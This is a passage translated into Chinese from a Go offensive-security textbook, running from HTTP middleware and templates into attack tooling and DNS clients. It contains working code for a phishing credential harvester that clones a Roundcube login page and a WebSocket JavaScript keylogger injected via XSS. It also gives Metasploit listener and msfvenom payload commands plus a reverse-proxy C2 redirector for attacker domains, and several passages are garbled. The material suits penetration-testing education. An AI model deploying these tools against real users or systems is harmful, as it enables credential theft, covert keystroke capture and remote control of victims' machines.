这种实现与之前的示例略有不同。之前，你实现的是 `http.Handler` 接口，它期望一个接受两个参数的 `ServeHTTP()` 方法：`http.ResponseWriter` 和 `*http.Request`。在新示例中，你实现的不是 `http.Handler` 接口，而是 `negroni.Handler` 接口。

微小的区别在于 `negroni.Handler` 接口期望你实现一个接受不是两个而是三个参数的 `ServeHTTP()` 方法：`http.ResponseWriter`、`*http.Request` 和 `http.HandlerFunc` ①。`HandlerFunc` 参数代表链中的下一个中间件函数。根据你的需要，将其命名为 `next`。你在 `ServeHTTP()` 中进行处理，然后调用 `next()` ❷，将你最初收到的 `http.ResponseWriter` 和 `*http.Request` 值传递给它。这有效地将执行权向上传递。

但你仍然必须告诉 `negroni` 使用你的实现作为中间件链的一部分。你可以通过调用 `negroni` 的 `Use` 方法并并将你的 `negroni.Handler` 实现传递传递它来实现：

```go
n.Use(&trivial{})
```

使用这种方法编写中间件非常方便，因为你可以轻松地将执行权传递给下一个中间件。缺点是：你写的任何内容都会使用 `negroni`。例如，如果你正在编写一个向响应写入安全标头的中间件包，你会希望它实现 `http.Handler`，以便你可以在其他应用程序栈中使用它，而大多数栈不会期望 `negroni.Handler`。点在于，无论你的中间件目的是什么，在尝试在非 `negroni` 栈中使用 `negroni` 中间件时会出现兼容性问题，反之亦然。

还有两种方法可以告诉 `negroni` 使用你的实现。第一种是调用 `Use` 方法，你已经熟悉了；第二种方法是调用 `UseHandler(handler)`。后者是你可能经常使用的，因为它不会忘记执行链中的下一个中间件。

## 使用 Negroni 添加身份验证

在继续之前，让我们修改上一个节的示例，以演示 context（上下文）的使用，它可以轻松地在函数之间传递变量。4-5 中的示例展示了使用 `negroni` 添加身份验证中间件。

```go
package main

import (

    "context"

    "fmt"

    "net/http"

    "github.com/gorilla/mux"

    "github.com/urfave/negroni"

)

type badAuth struct {

    Username string

    Password string

}

func (b *badAuth) ServeHTTP(w http.ResponseWriter, r *http.Request, next http.HandlerFunc) {

    username := r.URL.Query().Get("username") ③

    password := r.URL.Query().Get("password")

    if username != b.Username || password != b.Password {

        http.Error(w, "Unauthorized", 401)

        return ④

    }

    ctx := context.WithValue(r.Context(), "username", username) ⑤

    r = r.WithContext(ctx) ⑥

    next(w, r)

}

func hello(w http.ResponseWriter, r *http.Request) {

    username := r.Context().Value("username").(string) ⑦

    fmt.Fprintf(w, "Hi %s\n", username)

}

func main() {

	r := mux.NewRouter()

	r.HandleFunc("/hello", hello).Methods("GET")

	n := negroni.Classic()

	n.Use(&badAuth{

		Username: "admin",

		Password: "password",

	})

	n.UseHandler(r)

	http.ListenAndServe(":8000", n)

}
```

列表 4-5：在处理器中使用 context (`/ch-4/negroni_example/main.go`)

你添加了新的中间件 `badAuth`，纯粹是为了演示身份验证 ① 这个新类型有两个字段 Username 和 Password，并实现了 `negroni.Handler`，因为它定义了之前讨论的三个参数版本的 `ServeHTTP()` 方法 ②。在 `ServeHTTP()` 方法内部，你首先从请求中获取用户名和密码 ③，然后将其与你的字段进行比较。如果用户名和密码错误，执行停止，并向请求者写入 401 响应。注意在调用 `next()` 之前返回 ④ 这阻止了中间件链的后续执行。如果凭据正确，你会通过一个繁琐的过程将用户名添加到请求上下文。你首先调用 `context.WithValue()` 初始化上下文，在该上下文设置名为 username 的变量 ⑤。然后通过调用 `r.WithContext(ctx)` 确保请求使用你的新上下文 ⑥。如果你计划用 Go 编写应用程序，你将熟悉这种模式，如

你将会频繁使用它。

在 `hello()` 函数中，你通过 `Context().Value(interface{})` 函数从请求上下文中获取用户名，该函数本身返回一个 `interface{}`。由于你知道它是一个字符串，因此可以在这里使用类型断言（type assertion）。如果你无法确定类型，或者无法确定该值存在于上下文中，请使用 `switch` 语句进行转换。

构建并执行列表 4-5 中的代码，并向服务器发送请求。发送一些带有正确和错误凭据的请求。你应该看到以下输出：

```
$ curl -i http://localhost:8000/hello

HTTP/1.1 401 Unauthorized

Content-Type: text/plain; charset=utf-8

Content-Type-Options: nosniff

Date: Thu, 16 Jan 2020 20:41:20 GMT

Content-Length: 13

Unauthorized

$ curl -i "http://localhost:8000/hello?username=admin&password=password"

HTTP/1.1 200 OK

Date: Thu, 16 Jan 2020 20:41:05 GMT

Content-Length: 9

Content-Type: text/plain; charset=utf-8
```

Hi admin

不带凭据的请求会导致你的中间件返回 401 Unauthorized 错误。发送带有有效凭据的相同请求将产生一个只有经过验证的用户才能访问的秘密问候消息。

那段日志非常难以阅读。到目前为止，你的处理函数仅使用 `fmt.Fprint()` 将响应写入 `http.ResponseWriter` 实例。在下一节中，你将通过使用 Go 的模板包查看一种返回 HTML 的更动态的方法。

## 使用模板生成 HTML 响应

模板允许你使用 Go 程序中的变量动态生成内容（包括 HTML）。许多语言都有允许你生成模板的第三方包。Go 拥有两个模板包：`text/template` 和 `html/template`。在本章中，你将使用 `html` 包，因为它提供了你所需的上下文感知编码。

Go 的包的一个奇妙之处是它是感知上下文的：它会根据变量放置在模板中的位置以不同的方式对变量进行编码。例如，如果你将一个字符串作为 `href` 属性的 URL 提供，该字符串将被 URL 编码，但如果同一个字符串在 HTML 元素内渲染，它将被 HTML 编码。

要创建和使用模板，你首先定义你的模板，它包含一个占位符来表示要渲染的动态上下文数据。它的语法对于用过 Python Jinja 的读者来说应该很熟悉。当你渲染模板时，你向它传递一个将用作上下文的变量。该变量可以是带有多个字段的复杂结构，也可以是一个原始变量。

让我们来看列表 4-6 显示的示例，它创建了一个简单的模板并用 JavaScript 填充占位符。这是一个为了演示示例，展示了如何动态填充返回给浏览器的内容。

```go
package main

import (

  "html/template"

  "os"

)

var x = `

<head>

<body>

Hello {{.}}

</body>

</html>`
```

```go
func main() {

	t, err := template.New("hello").Parse(x)

	if err != nil {

	panic(err)

	}

	t.Execute(os.Stdout, "<script>alert('world')</script>")

}
```

列表 4-6：HTML 模板 (`/ch-4/template_example/main.go`)

你做的第一件事是创建一个名为 `x` 的变量来存储你的 HTML 模板。在这里你使用嵌入代码的字符串来定义模板，但大多数情况下你可能希望将模板存储在单独的文件中。注意，模板只是简单的 HTML 页面。在模板内部，你通过 `{{variable-name}}` 约定来定义占位符，其中 `variable-name` 是你想要渲染的上下文数据中的数据元素。记住，这是一个结构体或另一个原始类型。在这种情况下，你使用单点符号 `.`，它告诉包你想在此处渲染整个上下文。由于你处理的是单个字符串，这没有问题，但如果你有一个更大、更复杂的数据结构（例如结构体），你可以通过调用该点之后来获取你需要的字段。例如，如果你向模板传递了一个带有 `Username` 字段的结构体，你可以使用 `{{.Username}}` 来渲染该字段。

接下来，在 `main()` 函数中，你通过调用 `template.New(string)` 创建新模板。然后你调用 `Parse(string)` 以确保模板格式正确并对其进行解析。这两个函数共同返回一个指向 `Template` 的新指针。

虽然这个示例只使用了一个模板，但将模板嵌入其他模板中是可能的。当使用多个模板时，重要的是为它们命名以便能够调用它们。最后，你调用 `Execute(io.Writer, interface{})`，它通过使用作为第二个参数传递的变量来处理模板，并将其写入提供的 `io.Writer`。为了演示目的，你将使用 `os.Stdout`。你传递 `Execute()` 的第二个变量是用于渲染模板的上下文。

运行此代码会产生 HTML，你应该注意到作为上下文一部分提供的脚本标签和其他恶性字符已经过正确编码。太酷了！

```
$ build -o template_example

$ ./template_example

<<html><body>Hello &lt;script&gt;alert('world')&lt;/gt;</body></html>
```

关于模板我们还有很多可以说的。你可以结合循环和控制结构使用它们。你可以调用内置函数，甚至定义自定义函数。这些超出了本书的范围。

## 凭据收取

社会工程的基础手段是凭据收取攻击。这种攻击通过让用户在克隆的网站中输入凭据来捕获其登录信息。对于暴露单因子身份验证的组织非常有效。一旦获取了用户的凭据，就可以访问其账户。

开始你需要克隆一个具有登录表单的网站。在实践中，你可能想克隆目标使用的网站。但对于本示例，我们将克隆 Roundcube 网站。Roundcube 是一个开源 Webmail 客户端，不像 Microsoft Exchange 等商业软件那么常用，但同样可以说明这些概念。我们将使用 Docker 运行 Roundcube，因为会让过程更容易。

你可以通过执行以下命令启动自己的 Roundcube 服务器。如果你不想运行 Roundcube 服务器，不用担心；练习源码包含了该网站的克隆。为了完整性，我们仍然包含了：

```
$ docker run --rm -it -p 127.0.0.1:80 roundbertkl/roundcube
```


该命令启动了一个 `Roundcube` `Docker` 实例。如果你导航到 `http://127.0.0.1:80`，你会看到一个登录表单。通常你会使用 `wget` 克隆网站及其所有必需文件，`Roundcube` 的 `JavaScript` 阻止了这种操作。相反，你将使用 `Google Chrome` 保存它。在练习文件夹中，你应该看到类似于列表 4-7 的目录结构。

```
$ tree

.
+-- main.go
+-- public
  +-- index.html
  +-- index_files
    +-- app.js
    +-- common.js
    +-- jquery-ui-1.10.4.custom.css
    +-- jquery-ui-1.10.4.custom.min.js
    +-- jquery.min.js
    +-- jstz.min.js
  +-- roundcube_logo.png
  +-- styles.css
  +-- ui.js
```

`index.html`

列表 4-7：目录 `/ch-4/credential_harvester/` 的目录列表

`public` 目录下的文件代表了未经修改的克隆登录站点。你需要修改原始的登录表单，以重定向输入的凭据，将其发送到你自己而不是合法的服务器。首先，打开 `public/index.html` 并找到用于 `POST` 登录请求的 `form` 元素。它看起来应该如下：

```
<form name="form" method="post" action="http://127.0.0.1/?_task=login">
```

你需要修改该标签的 `action` 属性并将其指向你的服务器。将 `action` 改为 `/login`。别忘记保存。该行现在应该如下：

为了正确渲染登录表单并捕获用户名和密码，你首先需要提供 `public` 目录中的文件。然后，你需要为 `/login` 编写一个 `HandleFunc` 来捕获用户名和密码。你还会将捕获到的凭据存储在一个文件中，并带有一些详细的日志。

你只需要几十行代码就能处理所有这些。

列表 4-8 显示了程序的全部内容。

```
package main

import (
    "net/http"
    "os"
    "time"

log "github.com/Sirupsen/logrus"
"github.com/gorilla/mux"
)
```

```
func login(w http.ResponseWriter, r *http.Request) {
	log.WithFields(log.Fields{
		"time": time.Now().String(),
		"username": r.FormValue("user"),
		"password": r.FormValue("pass"),
		"user-agent": r.UserAgent(),
		"ip_address": r.RemoteAddr,
	}).Info("login attempt")

	http.Redirect(w, r, "/", 302)
}
```

```
func main() {
	fh, err := os.OpenFile("credentials.txt", os.O_CREATE|os.O_APPEND|os.O_WRONLY, 0600)
	if err != nil {
		panic(err)
	}
	defer fh.Close()
	log.SetOutput(fh)
	r := mux.NewRouter()
	r.HandleFunc("/login", login).Methods("POST")
	r.PathPrefix("/").Handler(http.FileServer(http.Dir("public")))
	log.Fatal(http.ListenAndServe(":8080", r))
}
```

列表 4-8：凭据收割服务器 (`/ch-4/credential_harvester/main.go`)

首先值得注意的是导入 `github.com/Sirupsen/logrus`。这是一个结构化日志包，我们倾向于使用它而不是标准的 `Go` `log` 包。它提供了更具配置性的日志选项，以便更好地错误处理。要使用此包，你需要确保在此之前运行了 `go get`。

接下来，你定义了 `login()` 处理程序函数。希望这种模式看起来很熟悉。在这个函数内部，你使用 `log.Fields()` 写入捕获的数据。你显示了当前时间、用户-agent 和请求者的 IP 地址。你还调用了 `FormValue(string)` 来捕获提交的用户名 (`_user`) 和密码 (`_pass`) 值。你从 `index.html` 获取这些值，通过定位每个用户名和密码的表单输入元素。你的服务器需要显式地与登录表单中存在的字段名称对齐。

以下从 `index.html` 提取的代码片段显示了相关的输入项，为了清晰起见，名称已加粗：

```
<td class="input"><input name="user" id="rcmloginuser required="required" size="40" autocapital="off" autocomplete="off" type="text"></td>
<td class="input"><input name="_pass" id="rcmloginpwd required="required" size="40" autocapital="off" autocomplete="off" type="password"></td>
```

在你的 `main()` 函数中，你开始打开一个用于存储捕获数据的文件。然后，你使用 `log.SetOutput(io.Writer)` 并传递你刚刚创建的文件句柄，以配置日志包，使其输出写入该文件。接下来，你创建了一个新路由器并挂载了 `login()` 处理程序函数。

在启动服务器之前，你还做了另一件看起来可能陌生的事：你告诉路由器从某个目录提供静态文件。这样，你的 `Go` 服务器就能显式地知道你的静态文件（图像、`JavaScript`、`HTML`）所在地。`Go` 让这变得非常简单，并提供了防止目录遍历攻击的保护。从内向外，你使用 `http.Dir(string)` 定义你想要提供文件的目录。其结果作为输入传递给 `http.FileServer(FileSystem)`，它为你的目录创建一个 `http.Handler`。你通过 `PathPrefix(string)` 将其挂载到路由器上。使用 `/` 作为路径前缀将匹配任何尚未找到匹配的请求。注意，默认情况下，`FileServer` 返回的处理程序支持目录索引。这可能会泄漏一些信息。可以禁用，但我们不会涵盖这一点。

最后，像以前一样，启动服务器。一旦你构建并执行了列表 4-8 中的代码，打开你的浏览器并导航到 `http://localhost:8080`。

## 使用 WEBSOCKET API 进行键盘记录

`WebSocket API` (`WebSockets`) 是一种全双工协议，多年来变得越来越流行，许多浏览器现在都支持它。它为 Web 应用服务器和客户端之间的有效通信提供了一种方法。重要的是，它允许服务器在无需轮询的情况下向客户端发送消息。

`WebSockets` 对于“实时”应用程序（如聊天和游戏）非常有用，但你也可以将其用于恶意目的，例如在应用程序中注入键盘记录器以捕获用户按下的每个键。首先，假设你发现了一个存在跨站脚本漏洞（一种第三方可以在受害者浏览器中运行任意 `JavaScript` 的漏洞）的应用程序，或者你入侵了一个 Web 服务器，允许你修改应用程序源码。任何一种场景都应该让你包含远程 `JavaScript` 文件。

为了演示目的，你将使用 `JS Bin` (`http://jsbin.com`) 来测试你的负载。`JS Bin` 是一个开发者可以测试 `HTML` 和 `JavaScript` 代码的在线平台。在浏览器中导航到 `JS Bin`，并将以下 `HTML` 粘贴到左列，完全替换默认代码：你的服务器需要做两件事：处理 `WebSocket` 和提供 `JavaScript` 文件。首先，先把 `JavaScript` 移开，毕竟这书是关于 `Go` 的，而不是 `JavaScript`。请查看 `https://github.com/gopherjs/gopherjs/` 了解如何使用 `Go` 编写 `JavaScript`。`JavaScript` 代码如下：

```
function() {
var conn = new WebSocket("ws://{{.}}/ws");
document.onkeypress = keypress;
function keypress(evt) {
s = String.fromCharCode(evt.which);
conn.send(s);
}
}();
```

这段 `JavaScript` 代码处理按键事件。每当按下按键时，代码都会通过 `WebSocket` 将按键发送到资源 `ws://{{}}/ws`。请记住，`{{}}` 值是一个 `Go` 模板占位符，代表当前的上下文。该资源是一个 `WebSocket` URL，它将根据你传递给模板的字符串来填充服务器位置信息。我们稍后会介绍这一点。在本示例中，你将在一个名为 `logger.js` 的文件中看到 `JavaScript`。

但等一下，我们说过它是作为 `k.js` 服务的！我们之前展示的 `HTML` 也显式地使用了 `k.js`。这是怎么回事？`logger.js` 是一个 `Go` 模板，而不是真正的 `JavaScript` 文件。你将使用 `k.js` 作为模式来匹配你的路由器。当匹配成功时，你的服务器将渲染存储在 `logger.js` 文件中的模板，并包含代表 `WebSocket` 连接到主机的上下文数据。你可以通过查看列表 4-9 显示的服务器代码来了解其工作原理。

```go
import (
"flag"
"fmt"
"html/template"
"log"
"net/http"

"github.com/gorilla/mux"
"github.com/gorilla/websocket"
)

var up = websocket.Upgrader{
    CheckOrigin: func(r *http.Request) bool { return true },
}

listenAddr string
wsAddr string
jsTemplate *template.Template

func init() {
    flag.StringVar(&listenAddr, "listen-addr", "", "Address to listen on")
    flag.StringVar(&wsAddr, "ws-addr", "", "Address for WebSocket connection")
    flag.Parse()
    var err error
    jsTemplate, err = template.ParseFiles("logger.js")
    if err != nil {
        panic(err)
    }
}

func serveWS(w http.ResponseWriter, r *http.Request) {
    conn, err := up.Upgrade(w, nil)
    if err != nil {
        http.Error(w, "", 500)
        return
    }
    defer conn.Close()
    fmt.Printf("Connection from %s\n", conn.RemoteAddr().String())
    for {
        msg, err := conn.ReadMessage()
        if err != nil {
            return
        }
        fmt.Printf("From %s: %s\n", conn.RemoteAddr().String(), string(msg))
    }
}

func serveFile(w http.ResponseWriter, r *http.Request) {
    w.Header().Set("Content-Type", "application/javascript")
    jsTemplate.Execute(w, wsAddr)
}

func main() {
    r := mux.NewRouter()
    r.HandleFunc("/ws", serveWS)
    r.HandleFunc("/k.js", serveFile)
    log.Fatal(http.ListenAndServe(":8080", r))
}
```

列表 4-9：按键记录服务器 (`/ch-4/websocket_keylogger/main.go`)

这里有很多内容要介绍。首先，注意你正在使用另一个第三方包 `gorilla/websocket` 来处理你的 `WebSocket` 通信❶。这是一个功能齐全且强大的包，可以简化你的开发过程，就像你之前在本章中使用的 `gorilla/mux` 路由器一样。别忘记先从终端中运行 `go get github.com/gorilla/websocket`。

然后你定义了几个变量。你创建了一个 `websocket.Upgrader` 实例，它本质上会将每个源加入白名单②。允许所有源通常是不良的安全实践，但在情况下，我们将这样做，因为这是一个我们将在本地工作站上运行的测试实例。对于实际的恶意部署使用，你可能希望将源限制为一个特定的值。

在 `init()` 函数中（它在 `main()` 之前自动执行），你定义了命令行参数，并尝试解析存储在 `logger.js` 文件中的 `Go` 模板。注意你正在调用 `template.ParseFiles("logger.js")` ❸。你检查了响应以确保文件解析正确。如果一切顺利，你已经解析模板并存储在一个名为 `jsTemplate` 的变量中。

到此为止，你还没有为模板提供任何上下文数据或执行它。这很快就会发生。然而，你首先定义了一个函数 `serveWS()`，将用它来处理 `WebSocket` 通信。你通过调用 `up.Upgrade(w, r, r.Header)` 4 创建了一个新的 `websocket.Conn` 实例。`Upgrade()` 方法将 `HTTP` 连接升级为使用 `WebSocket` 协议。这意味着由此函数处理的任何请求将升级为使用 `WebSocket`。你在无限循环中与连接进行交互，调用 `conn.ReadMessage()` 读取传入的消息 5。如果你的 `JavaScript` 工作正常，这些消息应该包含捕获的按键。你将这些消息和客户端的远程 IP 地址写入标准输出 6。

你已经解决了创建 `WebSocket` 处理器时难题中最困难的部分。接下来，你创建了另一个名为 `serveFile` 的处理函数。该函数将检索并返回你的 `JavaScript` 模板内容，并包含上下文数据。为了实现这一点，你将 `Content-Type` 头部设置为 `application/javascript` 7。这将告诉连接的浏览器，`HTTP` 响应体的内容应被视为 `JavaScript`。在处理函数的第二行和最后一行，调用 `jsTemplate.Execute(w, wsAddr)` 8。

记得你是如何解析 `logger.js` 的吗？在这种情况下，你传递了地址。这就是将客户端连接到服务器的方式。

你做到了！它运行了！你的输出列出了填写表单时按下的每一个键。这是一组凭据。如果你遇到问题，请确保你提供了的命令行参数。此外，如果你尝试从 `localhost:8080` 的服务器调用 `k.js`，则 `HTML` 文件可能需要调整。


```bash
$ go run main.go -listen-addr=:8080 -ws-addr=ws://127.0.0.1:8080/ws
Connection from 127.0.0.1:54321
From 127.0.0.1:54321: a
From 127.0.0.1:54321: d
From 127.0.0.1:54321: m
From 127.0.0.1:54321: i
From 127.0.0.1:54321: n
From 127.0.0.1:54321: t
From 127.0.0.1:54321: r
From 127.0.0.1:54321: o
From 127.0.0.1:54321: w
From 127.0.0.1:54321: s
From 127.0.0.1:54321: u
From 127.0.0.1:54321: s
From 127.0.0.1:54321: e
From 127.0.0.1:54321: r
From 127.0.0.1:54321: _
From 127.0.0.1:54321: a
From 127.0.0.1:54321: s
From 127.0.0.1:54321: s
From 127.0.0.1:54321: w
From 127.0.0.1:54321: o
From 127.0.0.1:54321: r
From 127.0.0.1:54321: d
From 127.0.0.1:54321: p
From 127.0.0.1:54321: a
From 127.0.0.1:54321: s
From 127.0.0.1:54321: s
From 127.0.0.1:54321: w
From 127.0.0.1:54321: d
From 127.0.0.1:54321: s
From 127.0.0.1:54321: e
From 127.0.0.1:54321: r
From 127.0.0.1:54321: t
From 127.0.0.1:54321: p
From 127.0.0.1:54321: a
From 127.0.0.1:54321: s
From 127.0.0.1:54321: s
From 127.0.0.1:54321: w
From 127.0.0.1:54321: d
From 127.0.0.1:54321: s
From 127.0.0.1:54321: e
From 127.0.0.1:54321: r
From 127.0.0.1:54321: t
From 127.0.0.1:54321: s
```

可以通过多种方式改进此代码。例如，你可能希望将输出记录到文件或其他持久化存储中，而不是终端。这样当终端窗口关闭或服务器重启时，丢失数据的概率就会降低。此外，如果你的按键记录器同时记录多个客户端的按键，输出将混合数据，这可能导致难以凑出特定用户的凭据。你可以通过找到更好的展示格式来避免这种情况，例如，按唯一的客户端/端口源对按键进行分组。

## 多路复用命令控制

你已经到达 `HTTP` 服务器章节的最后一节。在这里，你将查看如何将 `Meterpreter HTTP` 连接多路复用到不同的后端控制服务器。`Meterpreter` 是 `Metasploit` 攻击框架内流行且灵活的命令控制（`C2`）套件。我们将不会深入探讨 `Metasploit` 或 `Meterpreter` 的细节。如果你是该领域新手，我们建议你阅读许多教程或文档网站中的一个。

在本节中，我们将介绍创建一个反向 `HTTP` 代理（reverse `HTTP` proxy），这样你就可以根据 `Host` `HTTP` 头部动态地路由入的 `Meterpreter` 会话，这正是虚拟网站托管的工作原理。与其分发不同的本地文件和目录，不如将连接代理到不同的 `Meterpreter` 监听器。由于以下几个原因，这是一个非常有趣的用例。

首先，你的代理充当了重定向器，允许你只暴露域名和 `IP` 地址，而不暴露你的 `Metasploit` 监听器。如果重定向器被列入名单，你只需要移动它，而无需移动你的 `C2` 服务器。其次，你可以扩展这里的概念来执行域前置（domain fronting），这是一种利用受信任的第三方域名（通常来自云提供商）来绕过严格的出口控制的技巧。我们在这里不会提供一个完整的示例，但我们强烈建议你深入研究，因为它非常强大，允许你出入受限的网络。最后，该用例演示了你如何在一个可能攻击不同目标组织的盟友团队之间共享单个主机/端口组合。由于 `80` 和 `443` 端口是最允许的出口端口，你可以使用你的代理监听这些端口，并智能地将连接路由到正确的监听器。

以下是计划。你将设置两个独立的 `Meterpreter` 反向 `HTTP` 监听器。在示例中，这些将位于 `IP` 地址为 `10.0.1.20` 的虚拟机上，但它们完全可以存在于不同的主机上，分别对应端口 `10080` 和 `20080`。在实际情况下，只要代理可以访问这些端口，这些监听器就可以运行在任何地方。确保已安装了 `Metasploit`（`Kali Linux` 预装）；然后启动你的监听器。

```
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_http
> set LHOST 10.0.1.20
> set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20
> set ReverseListenerBindPort 10080
> exploit -j
[*] Exploit running as background job 1.
```

`[*] Started HTTP reverse handler on http://10.0.1.20:10080`

当你启动监听器时，你将代理数据作为 `LHOST` 和 `LPORT` 值提供。但如果你将高级选项 `ReverseListenerBindAddress` 和 `ReverseListenerBindPort` 设置为你想要监听器启动的实际 `IP` 和端口，这在端口使用上提供了灵活性，允许你显式标识代理主机——例如，如果你正在设置域前置，这可能是主机。

在第二个 `Metasploit` 实例上，你将执行类似的操作以便在端口 `20080` 上启动额外的监听器。这里唯一的区别是你绑定到了不同的端口：

```
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_http
> set LHOST 10.0.1.20
> set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20
> set ReverseListenerBindPort 20080
> exploit -j -z
```

`[*] Exploit running as background job 1.`

`[*] Started HTTP reverse handler on http://10.0.1.20:20080`

现在，让我们创建你的反向代理。列表 4-10 显示了完整的代码。

```go
package main

import (
    "log"
    "net/http"
    "net/http/httputil"
    "net/url"
    "github.com/gorilla/mux"
)

var (
    hostProxy = make(map[string]string)
    proxies = make(map[string]*httputil.ReverseProxy)
)

func init() {
    hostProxy["attacker1.com"] = "http://10.0.1.20:10080"
    hostProxy["attacker2.com"] = "http://10.0.1.20:20080"

    for k, v := range hostProxy {
        remote, err := url.Parse(v)
        if err != nil {
            log.Fatal("Unable to parse proxy")
        }
        proxies[k] = httputil.NewSingleHostProxy(remote)
    }
}

func main() {
    r := mux.NewRouter()
    for host, proxy := range proxies {
        r.Host(host).Handler(proxy)
    }
    log.Fatal(http.ListenAndServe(":80", r))
}
```

### 列表 4-10：多路复用 (mux/main.go)

首先，你会注意到你导入了 `net/http/httputil` 包，它包含了辅助创建反向代理的功能。它可以让你免于从零开始创建一个。在导入包后，你定义了一对变量，它们都是 `map`。你将使用第一个变量 `hostProxy` 将主机名映射到你想要路由到的 `Metasploit` 监听器的 `URL`。记住，你将根据代理在 `HTTP` 请求中收到的 `Host` 头部进行路由。维护这种映射是确定目的地的简单方法。你定义的第二个变量 `proxies` 也会使用主机名作为键。然而，它们对应的值是 `httputil.ReverseProxy` 实例。这些值是你可以路由的实际代理实例。注意，你硬编码这些信息并不是最优雅的方法。更好的实现将其存储在外部文件中。在 `init()` 函数中，你遍历 `hostProxy`，解析地址以创建 `net.URL` 实例。你将结果输入 `httputil.NewSingleHostProxy`，这是一个从 `URL` 创建反向代理的辅助函数。甚至更好，`httputil.ReverseProxy` 类型实现了 `http.Handler` 接口，这意味着你可以将创建的代理作为路由的处理器。你在 `main()` 函数中执行此操作：创建一个路由器并遍历所有的代理实例。由于键是主机名，值是 `httputil.ReverseProxy` 类型。对于 `map` 中的每个键值对，在你的路由器上添加一个匹配函数。`Gorilla MUX` 工具包的 `Route` 类型接收请求中的 `Host` 值。对于你想要检查的每个主机，告诉路由器使用相应的代理。这是一个解决复杂问题的惊人的简单解决方案。你的程序通过启动服务器并绑定到端口 `80` 来结束。保存并运行程序。你需要以特权用户运行，因为你正在绑定特权端口。

此时，你有两个运行的 `Meterpreter` 反向监听器，现在也有了一个反向代理。最后一步是生成测试 `Payload` 以检查你的代理是否正常。让我们使用 `Metasploit` 自带的 `Payload` 生成工具 `msfvenom` 生成一对 `Windows` 可执行文件：

```
$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.0.1.20 LPORT=80 HttpHeader=attacker1.com -f exe -o payload1.exe
$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.0.1.20 LPORT=80 HttpHeader=attacker2.com -f exe -o payload2.exe
```

这生成了名为 `payload1.exe` 和 `payload2.exe` 的文件。注意，除了输出文件名外，两者唯一的区别是 `HttpHeader` 值，这确保了生成的 `Payload` 使用特定的 `Host` 头部发送 `HTTP` 请求。此外，`LHOST` 和 `PORT` 值对应你的反向代理信息，而不是 `Meterpreter` 监听器。将生成的可执行文件传输到 `Windows` 系统或虚拟机。执行这些文件时，你应该看到建立了两个新会话：一个是绑定到端口 `10080` 的监听器，另一个是绑定到端口 `20080` 的监听器。它们看起来像这样：

> `[*] http://10.0.1.20:10080 处理来自 10.0.1.20 的请求； (UUID: hff7podk)`

> `重定向建立了连接来自 /pXS_2gL4lv34_birRnGHgL4AJ3A9w3i9G3Ne2-3UdlhaCr8-6Q6OIIPTkzw33EPTOWan2rLo5RT42eOdohYykpyQy8dkBq3Mi2TaAEB with 'Mozilla/5.0 (Windows NT 6.1); Trident/7.0; rv:11.0) like Gecko'`

```
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk)
Attaching
orphaned/stageless session...
[*] Metmetereter session 1 opened (10.0.1.20:10080 -> 10.0.1.20:60226) at 2020-07-03 16:13:34-0500
```

如果你使用 `tcpdump` 或 `Wireshark` 检查发往 `10080` 或 `20080` 的网络流量，你应该看到你的反向代理是唯一与 `Metasploit` 监听器通信的主机。你还可以确认 `Host` 头部是否已正确设置为 `attacker2.com`（针对端口 `10080` 的监听器）和 `attacker2.com`（针对端口 `20080` 的监听器）。

恭喜你，完成了！现在，更上一层楼。作为一项练习，我们建议你更新代码以使用分阶段负载（staged payload）。这可能会伴随着额外的挑战，因为你需要确保两个阶段都正确通过代理进行路由。此外，尝试使用 `HTTPS` 而不是明文 `HTTP` 来实现。这将进一步加深你对以有用或邪恶方式进行流量代理的理解和效能。

## 总结

你已经完成了 `HTTP` 之旅程，在过去的两个章节中完成了客户端和服务器端的实现。在接下来的章节中，你将关注 `DNS`，这对于安全实务人员来说是一个同样非常有用的协议。事实上，你将尝试使用 `DNS` 复现这个 `HTTP` 多路复用示例。

# 5 利用 DNS


域名系统（`DNS`）用于定位互联网域名并将其转换为 `IP` 地址。在攻击者手中，它可以成为一种非常有效的武器，因为组织通常允许该协议通过受限的网络边界，并且他们往往未能对其使用进行充分监控。这只需要一点知识，但精明的攻击者会在攻击链的几乎每一个步骤中利用这些问题，包括侦察、命令与控制（`C2`），甚至数据外泄。在本章中，你将学习如何使用 `Go` 和第三方包编写自己的工具来实现这些功能。

你将从解析主机名和 `IP` 地址开始，揭示可以枚举的多种 `DNS` 记录类型。然后，你将使用前面章节中说明的模式构建一个大规模并发子域名猜解工具。最后，你将学习如何编写自己的 `DNS` 服务器和代理，并使用 `DNS` 隧道在受限网络中建立 `C2` 通道！

## 编写 DNS 客户端

在探索更复杂的程序之前，让我们先熟悉一些客户端操作的选项。`Go` 内置的 `net` 包提供了强大的功能，并支持大多数（如果不是全部）记录类型。内置包的优点是其 `API` 非常直观。例如，`LookupAddr(addr string)` 返回给定 `IP` 地址的主机列表。使用 `Go` 内置包的缺点是你可以无法指定目标服务器；相反，该包将使用在你的操作系统上配置的解析器。另一个缺点是你无法对结果进行深度深度检查。

为了解决这个问题，你将使用一个非常棒的第三方包，由 `Miek Gieben` 编写的 `Go DNS` 包。这是我们首选的 `DNS` 包，因为它高度模块化、代码编写良好且经过了充分测试。使用以下命令安装此包：

```bash
$ go get github.com/miekg/dns
```

一旦安装了该包，你就可以跟进后续的代码示例了。你将从执行 `A` 记录查询开始，解析主机名的 `IP` 地址。

## 获取 A 记录

让我们从查询一个完全限定域名（`FQDN`）开始，该域名指定了主机在 `DNS` 层次结构中的精确位置。然后，我们将尝试使用称为 `A` 记录的 `DNS` 记录类型将 `FQDN` 解析为 `IP` 地址。我们使用 `A` 记录将域名指向 `IP` 地址。列表 5-1 显示了一个查询示例。（所有位于根目录 `/` 的代码列表都在提供的 `github` 仓库 `https://github.com/blackhat-go/bhg/` 中。）

```go
package main

import (
    "fmt"

    "github.com/miekg/dns"
)

func main() {
    var msg dns.Msg
    fqdn := dns.Fqdn("stacktitan")
    msg.SetQuestion(fqdn, dns.TypeA)
    dns.Exchange(&msg, "8.8.8.8:53")
}
```

### 列表 5-1：获取 A 记录（ch-5/get_a/main.go）

